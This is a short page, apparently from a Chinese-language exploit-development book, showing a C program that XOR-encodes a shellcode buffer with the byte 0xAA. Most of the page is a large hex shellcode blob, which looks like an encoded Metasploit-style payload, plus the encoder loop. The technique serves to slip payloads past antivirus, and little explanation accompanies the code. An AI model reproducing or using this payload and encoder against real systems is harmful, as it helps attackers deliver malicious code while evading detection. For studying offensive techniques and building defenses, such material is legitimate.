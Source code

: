 由于我们已经准备好 shellcode，我们将在 C 中构建一个编码器，它将使用我们选择的字节 `0xAA` 进行 XOR 编码，如下所示：

![](img/ce358121-f247-4bc6-ab51-9f6077d8e11a.png)

让我们看看如何创建一个 C 编码器程序，如下所示：

```
#include <Windows.h>
#include "stdafx.h"
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char buf[] =
"\xbe\x95\xb2\x95\xfe\xdd\xc4\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x56\x83\xc2\x04\x31\x72\x0f\x03\x72\x9a\x50\x60\x02\x4c\x16"
"\x8b\xfb\x8c\x77\x05\x1e\xbd\xb7\x71\x6a\xed\x07\xf1\x3e\x01"
"\xe3\x57\xab\x92\x81\x7f\xdc\x13\x2f\xa6\xd3\xa4\x1c\x9a\x72"
"\x26\x5f\xcf\x54\x17\x90\x02\x94\x50\xcd\xef\xc4\x09\x99\x42"
"\xf9\x3e\xd7\x5e\x72\x0c\xf9\xe6\x67\xc4\xf8\xc7\x39\x5f\xa3"
"\xc7\xb8\x8c\xdf\x41\xa3\xd1\xda\x18\x58\x21\x90\x9a\x88\x78"
"\x59\x30\xf5\xb5\xa8\x48\x31\x71\x53\x3f\x4b\x82\xee\x38\x88"
"\xf9\x34\xcc\x0b\x59\xbe\x76\xf0\x58\x13\xe0\x73\x56\xd8\x66"
"\xdb\x7a\xdf\xab\x57\x86\x54\x4a\xb8\x0f\x2e\x69\x1c\x54\xf4"
"\x10\x05\x30\x5b\x2c\x55\x9b\x04\x88\x1d\x31\x50\xa1\x7f\x5d"
"\x95\x88\x7f\x9d\xb1\x9b\x0c\xaf\x1e\x30\x9b\x83\xd7\x9e\x5c"
"\x92\xf0\x20\xb2\x1c\x90\xde\x33\x5c\xb8\x24\x67\x0c\xd2\x8d"
"\x08\xc7\x22\x31\xdd\x7d\x29\xa5\x1e\x29\x27\x50\xf7\x2b\x38"
"\x8b\x5b\xa2\xde\xfb\x33\xe4\x4e\xbc\xe3\x44\x3f\x54\xee\x4b"
"\x60\x44\x11\x86\x09\xef\xfe\x7e\x61\x98\x67\xdb\xf9\x39\x67"
"\xf6\x87\x7a\xe3\xf2\x78\x34\x04\x77\x6b\x21\x73\x77\x73\xb2"
"\x16\x77\x19\xb6\xb0\x20\xb5\xb4\xe5\x06\x1a\x46\xc0\x15\x5d"
"\xb8\x95\x2f\x15\x8f\x03\x0f\x41\xf0\xc3\x8f\x91\xa6\x89\x8f"
"\xf9\x1e\xea\xdc\x1c\x61\x27\x71\x8d\xf4\xc8\x23\x61\x5e\xa1"
"\xc9\x5c\xa8\x6e\x32\x8b\xaa\x69\xcc\x49\x85\xd1\xa4\xb1\x95"
"\xe1\x34\xd8\x15\xb2\x5c\x17\x39\x3d\xac\xd8\x90\x16\xa4\x53"
"\x75\xd4\x55\x63\x5c\xb8\xcb\x64\x53\x61\xfc\x1f\x1c\x96\xfd"
"\xdf\x34\xf3\xfe\xdf\x38\x05\xc3\x09\x01\x73\x02\x8a\x36\x8c"
"\x31\xaf\x1f\x07\x39\xe3\x60\x02";

int main()
{
 for (unsigned int i = 0; i < sizeof buf; ++i)
 {
  if (i % 15 == 0)
  {
   std::cout << "\"\n\"";
  }
  unsigned char val = (unsigned int)buf[i] ^ 0xAA;
  std::cout << "\\x" << std::hex << (unsigned int)val;
 }
 _getch();
 return 0;
}
```
